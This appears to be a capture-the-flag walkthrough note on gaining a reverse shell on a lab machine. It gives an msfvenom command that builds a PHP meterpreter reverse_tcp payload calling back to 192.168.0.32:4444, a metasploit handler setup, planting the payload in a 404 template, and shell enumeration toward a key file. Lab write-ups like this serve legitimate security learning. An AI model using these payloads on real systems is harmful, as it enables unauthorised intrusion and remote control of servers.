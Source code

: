 NOTE - password:  ER28-0652

# Reverse shell time

Reverse shell time. Create the reverse shell with msfvenom and the right payload. Probably could have used metasploit to
search for the exploit if we wanted. Notes about reverse shells here: [Reverse Shells](Reverse%20Shells.md)

Command to create the reverse shell

```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f raw -o payload.php
```

This breaks down to: 

```bash
    -p      # Payload to use
    LHOST   # Local host to reverse to
    LPORT   # Local port to reverse to
    -f      # encoding of payload. Raw = None
    -o      # output file name
```

## How to read the reverse shell

The reverse shell can be handled through metasploit. I think it could be done with netcat too, but metasploit can too.
Like so... 

```
msfconsole
$ use exploit/multi/handler
$ set payload php/meterpreter/reverse_tcp
$ set LHOST 192.168.0.32
$ set LPORT 4444
$ run
```

Open the payload.php file, paste into the 404 template and.... wait?

Yep, it opens a meterpreter session back to the local computer. Let's upgrade from the `meterpreter` session to the
`shell` by using the command `shell`.

## Get comfortable in your new shell

```bash
pwd
whoami
cd /
ls
cd home
ls
cd robot
ls
cat key-2-of-3.txt  # Password denied
```
